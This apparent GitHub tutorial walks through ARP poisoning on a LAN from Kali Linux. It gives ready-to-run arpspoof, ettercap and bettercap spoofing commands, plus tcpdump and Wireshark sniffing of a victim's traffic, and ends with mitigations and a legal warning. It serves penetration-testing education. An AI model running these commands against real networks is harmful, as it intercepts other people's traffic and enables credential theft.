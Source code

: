 ### Objective

Understand and perform ARP poisoning (a.k.a. ARP spoofing) using various tools on Kali Linux. ARP poisoning involves sending forged ARP messages to a LAN to associate the attacker’s MAC address with the IP address of another host, typically the gateway, to intercept traffic.

---

### Table of Contents

1. What is ARP Poisoning?
2. Prerequisites
3. ARP Poisoning with `arpspoof`
4. ARP Poisoning with `ettercap`
5. ARP Poisoning with `bettercap`
6. Packet Sniffing with `wireshark` or `tcpdump`
7. Mitigation Techniques

---

## 1. What is ARP Poisoning?

ARP (Address Resolution Protocol) is used to resolve IP addresses to MAC addresses in a local network. Since ARP lacks authentication, an attacker can send fake ARP responses and redirect traffic through their machine.

---

## 2. Prerequisites

- Two or more devices on the same LAN (attacker, victim, router)
- Kali Linux as attacker
- Root privileges
- Tools: arpspoof, ettercap, bettercap, tcpdump/wireshark

Enable IP forwarding:

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
```

This allows the attacker's device to route traffic between the victim and the gateway.

---

## 3. ARP Poisoning with `arpspoof`

### Step 1: Discover IPs and MACs

Use `arp-scan` or `nmap` to identify target IPs.

```bash
arp-scan --interface=eth0 --localnet
```

### Step 2: ARP Spoofing Command

```bash
arpspoof -i eth0 -t 192.168.1.10 192.168.1.1
```

Explanation:
- `-i eth0`: Network interface.
- `-t 192.168.1.10`: Target IP (victim).
- `192.168.1.1`: Gateway IP.

Spoof the router too (optional but recommended):

```bash
arpspoof -i eth0 -t 192.168.1.1 192.168.1.10
```

Now, the victim and gateway think the attacker is the other.

---

## 4. ARP Poisoning with `ettercap`

`ettercap` is a powerful tool for ARP poisoning and MITM attacks.

### GUI Method:

```bash
ettercap -G
```

- Select sniff → unified sniffing → choose interface
- Targets → current hosts → scan for hosts
- Add victim and router to target 1 and 2
- MITM → ARP poisoning
- Start sniffing

### CLI Method:

```bash
ettercap -T -q -i eth0 -M arp:remote /192.168.1.10/ /192.168.1.1/
```

- `-T`: Text mode
- `-M arp:remote`: Remote ARP poisoning
- `/victim ip/ /gateway ip/`: Targets

---

## 5. ARP Poisoning with `bettercap`

Bettercap provides interactive and scriptable network attacks.

### Start Bettercap:

```bash
sudo bettercap -iface eth0
```

### In the interactive session:

```bash
net.probe on
set arp.spoof.targets 192.168.1.10
arp.spoof on
```

Explanation:
- `net.probe on`: Scan the network.
- `arp.spoof.targets`: Set the victim IP.
- `arp.spoof on`: Enable ARP spoofing.

You can also enable `net.sniff` to capture traffic:

```bash
net.sniff on
```

---

## 6. Packet Sniffing Tools

### Wireshark:

Start Wireshark and filter with:

```
ip.addr == 192.168.1.10
```

### tcpdump:

```bash
tcpdump -i eth0 host 192.168.1.10
```

---

## 7. Mitigation Techniques

- Use static ARP entries.
- Enable dynamic ARP inspection (DAI) on managed switches.
- Use encrypted protocols (HTTPS, SSH).
- Monitor ARP tables and detect anomalies.
- Use IDS tools like ARPWatch, XArp, Suricata.

---

## Summary Table

| Tool       | Mode        | CLI/GUI | Supports Sniffing | Notes                         |
|------------|-------------|---------|-------------------|-------------------------------|
| arpspoof   | ARP poison  | CLI     | No                | Lightweight and easy to use   |
| ettercap   | MITM suite  | Both    | Yes               | Supports filters and plugins  |
| bettercap  | MITM suite  | CLI     | Yes               | Modular and extensible        |

---

## Legal Warning

Use ARP poisoning only in authorized lab environments or penetration testing scenarios with proper permissions.

ARP poisoning is an effective MITM technique but also easily detectable with proper monitoring tools.

